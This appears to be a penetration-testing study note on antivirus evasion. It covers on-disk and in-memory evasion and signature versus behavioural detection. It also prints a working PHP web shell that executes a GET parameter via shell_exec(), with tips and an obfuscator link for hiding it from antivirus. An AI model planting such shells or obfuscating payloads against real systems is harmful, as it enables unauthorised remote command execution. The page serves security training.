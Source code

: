 # 🎪 Antivirus Evasion

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Detection methods:

When it comes to AV evasion we have two primary types available:

* On-Disk evasion
* In-Memory evasion

On-Disk evasion is when we try to get a file (be it a tool, script, or otherwise) saved on the target, then executed. This is very common when working with executable (`.exe`) files.

In-Memory evasion is when we try to import a script directly into memory and execute it there. For example, this could mean downloading a PowerShell module from the internet or our own device and directly importing it without ever saving it to the disk.

***

Generally speaking, detection methods can be classified into one of two categories:

* Static Detection
* Dynamic / Heuristic / Behavioural Detection

**Static** detection methods usually involve some kind of signature detection. A very rudimentary system, for example, would be taking the hashsum of the suspicious file and comparing it against a database of known malware hashsums.

The other form of static detection is called **Byte matching** and is another form of signature detection which works by searching through the program looking to match sequences of bytes against a known database of bad byte sequences.&#x20;

Where **static** virus malware detection methods look at the file itself, **dynamic** methods look at how the file _acts._

The AV lookes at pre-defined rules about what type of action is malicious (e.g. is the program reaching out to a known bad website, or messing with values in the registry that it shouldn't be?), the AV can see how the program intends to act

The suspicious software can outright be executed inside a sandbox environment under close supervision from the AV software. If the program acts maliciously then it is quarantined and flagged as malware

### PHP Payload Obfuscation

let's consider the following payload:

```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.

There are a variety of measures we could take here to try to bypass AV, including but not limited to:

* Switching parts of the exploit around so that they're in an unusual order
* Encoding all of the strings so that they're not recognisable
* Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)

{% embed url="https://www.gaijin.at/en/tools/php-obfuscator" %}
to make your php unreadable and hard to reverse:
{% endembed %}

